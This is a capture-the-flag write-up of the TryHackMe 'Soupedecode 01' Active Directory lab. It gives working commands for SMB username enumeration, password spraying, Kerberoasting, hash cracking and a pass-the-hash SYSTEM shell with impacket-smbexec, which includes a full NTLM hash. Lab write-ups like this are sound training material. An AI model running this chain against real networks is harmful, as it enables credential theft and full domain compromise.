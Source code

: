 ```yaml
---
title: TryHackMe Soupedecode 01
categories: [TryHackMe]
tags: [windows, Active Directory, Kerberoasting, SMB]
media_subpath: /images/tryhackme_soupedecode01
image:
  path: room-image.png
---
```


[https://tryhackme.com/room/soupedecode01](https://tryhackme/room/soupedecode01)

## Initial Scan

```console
nmap -sS -sC -sV -T4 -p- $ip
Host is up (0.021s latency).
Not shown: 65518 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos 
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: SOUPEDECODE.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: SOUPEDECODE.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC01.SOUPEDECODE.LOCAL
| Not valid before: 2025-06-17T21:35:42
|_Not valid after:  2025-12-17T21:35:42
|_ssl-date: 2025-08-02T18:25:00+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: SOUPEDECODE
|   NetBIOS_Domain_Name: SOUPEDECODE
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: SOUPEDECODE.LOCAL
|   DNS_Computer_Name: DC01.SOUPEDECODE.LOCAL
|   Product_Version: 10.0.20348
|_  System_Time: 2025-08-02T18:24:20+00:00
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49719/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Enumeration

Add `SOUPEDECODE.LOCAL`   to /etc/hosts 

![etc-hosts](etc-hosts.png)



Let's enumerate smb first.

We can't see any shares without any credentials, but guest is enabled so we could try run `--rid-brute`

![nxc-guest](nxc-guest.png)


To save usernames to other file run this

```console
nxc smb $ip -u 'guest' -p '' --rid-brute | grep 'SidTypeUser' | cut -d '\' -f 2 | cut -d ' ' -f 1 > usernames.txt
```
![valid-users](valid-users.png)


Now time for `crackmapexec`, we'll do password spraying against valid users as ASREProasting gave no results.

It took a while but eventually i found that the password for specific user is same as username

![crackmapexec](crackmapexec.png)



## Initial Entry

We have `Users` share available, log in there using `smbclient`, then navigate to `<USER>/Desktop` and download user.txt

### user.txt

```console
┌──(root㉿kali)-[/home/kali/Documents/Tryhackme/soupedecode01]
└─# cat user.txt
28[REDACTED]a8
```

## Privilege Escalation

Let's check some users for kerbreroasting

```console
impacket-GetUserSPNs -dc-ip $ip 'SOUPEDECODE.LOCAL/[REDACTED]:[REDACTED]' -request -outputfile kerberoastable.txt
```

Run `john` on kerberoastable.txt file

```console
john --wordlist=/usr/share/wordlists/rockyou.txt kerberoastable.txt 
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[REDACTED]    (?) 
```

Log in as `file_svc` user using `smbclient` on `backup` share, download .txt file which contains hashes.

Create 2 separate files: 
 - with users
 - with hashes
 
Then find valid user

```console
nxc smb $ip -u backup_users.txt -H backup_hashes.txt --no-bruteforce --continue-on-success 
SMB         10.10.60.15     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False) 

... 

SMB         10.10.60.15     445    DC01             [+] SOUPEDECODE.LOCAL\FileServer$:e4[REDACTED]59 (Pwn3d!)
```

### root.txt

FileServer has administrative privileges, we can use `impacket-smbexec` to run commands

![nxc-fileserver](nxc-fileserver.png)


```console
impacket-smbexec 'SOUPEDECODE.LOCAL/FileServer$@SOUPEDECODE.LOCAL' -hashes :e41da7e79a4c76dbd9cf79d1cb325559

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
27[REDACTED]6a
```
